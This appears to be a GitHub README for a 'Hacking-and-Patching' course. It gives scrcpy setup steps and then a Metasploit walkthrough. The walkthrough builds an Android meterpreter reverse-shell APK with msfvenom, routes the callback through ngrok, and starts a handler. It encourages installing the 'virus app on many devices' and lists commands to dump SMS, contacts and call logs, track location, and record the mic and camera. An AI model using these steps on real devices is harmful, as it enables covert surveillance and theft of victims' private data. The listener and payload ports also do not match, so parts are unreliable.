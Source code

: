 # LINUX GUIDE
## Hacking-and-Patching
The fundamentals of computer and network security specializations. Hacking and patching, it is a short course title, but it says it all. This repository explains how to hack devices with command injection vulnerability.

# 1. SCRCPY MODULE
Using the scrcpy module is quite easy but still brainstorming on it additional functions
  >- ## STEPS:
  1. Install scrcpy: use the command `apt-get install scrcpy`
  2. Enable developer mode on the android to be coonected to the PC
  3. Enable USB Debugging 
  4. Connect the USB cord to the PC
  5. In your linux VM enable connection to the VM
  6. Type `scrcpy` after successful connection to the VM and you should see your phone screen displayed on your VM

# 2. METASPLOIT FRAMEWORK
Knowledge is power, especially when it’s shared. A collaboration between the open source community and Rapid7, Metasploit helps security teams do more than just verify vulnerabilities, manage security assessments, and improve security awareness; it empowers and arms defenders to always stay one step (or two) ahead of the game.
  ## ANDROID HACKING: using NGROK
  First make sure your antivirus does not interfere with your machine 
  - download from [link:](https://ngrok.com/)
  - download the file and extract using `sudo tar xvzf ngrok-stable-linux-amd64.tgz` in the directory where it was downloaded
  - first sign-up to get an auth-token
  - Then in your VM command line input: `./ngrok [authtoken]`
  - `msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=4.tcp.ngrok.io LPORT=4444 R > /home/kali/Hacking/android-exploitation/virus.apk` 
  
  ```
  Here:
  -p indicates a payload type
  android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
  LHOST is your local IP
  LPORT is your IP’s listening port
  /home/kali/Hacking/android-exploitation would give the output directly
  apk is the final malicious app
  If you navigate to the output path /home/kali/Hacking/android-exploitation, we’ll find the injected apk file
  ```
  - We need to set a listener on our PC/server. If the target device installs and opens the “virus.apk” application, it’ll start sending a reverse connection to our listener.
  To create a listener using Metasploit, run these commands:
  - Run `msfconsole`
  - use `exploit/multi/handler`
  - set `payload android/meterpreter/reverse_tcp`
  - set `LHOST 4.tcp.ngrok.io`
  - set `LPORT 5544`
  - `exploit` 
  
  install the `apk` on the targetted device and open the app. If the user opens the app, it’ll send a connection to our listener and create a session. We can install the virus     app on many devices.
  To sell all sessions, run **background** command from the listener console. It’ll show all available connected devices sessions
  Available Commands
We can then enter help to see all the Android meterpreter commands.

I’m sharing some commands. Have a look:

  
   |Command | Description|
   | ---    | ---  |
  |1. app_list--	    |          Show all installed applications|
  |2. app_install--	   |       Request to install apk file|
  |3. app_run--	        |      Start an application|
  |4. app_uninstall--	   |     Request to uninstall application|
  |5. dump_contacts--	    |    Get all contacts and save in our PC|
  |6. dump_calllog--	   |       Get call log and save in our PC|
  |7. dump_sms--	        |      Get all sms and save in our PC|
  |8. send_sms--	       |      Send sms to any number|
  |9. geolocacte--	      |      Current lat and long of the device|
  |10. record_mic--	       |   Sound recorder|
  |11. webcam_list--        |   Available cameras|
  |12. webcam_snap 1/2/3--	 |   Take photo by selecting camera|
  |13. webcam_stream 1/2/3--	|  Open specific camera and live streaming|

  
  
# Detecting Command Injection
The pdf "Commix: Detecting and exploiting command injection flaws.", is by Anastasios Stasinopoulos, Christoforos Ntantogian, Christos Xenakis from Department of Digital Systems, University of Piraeus.

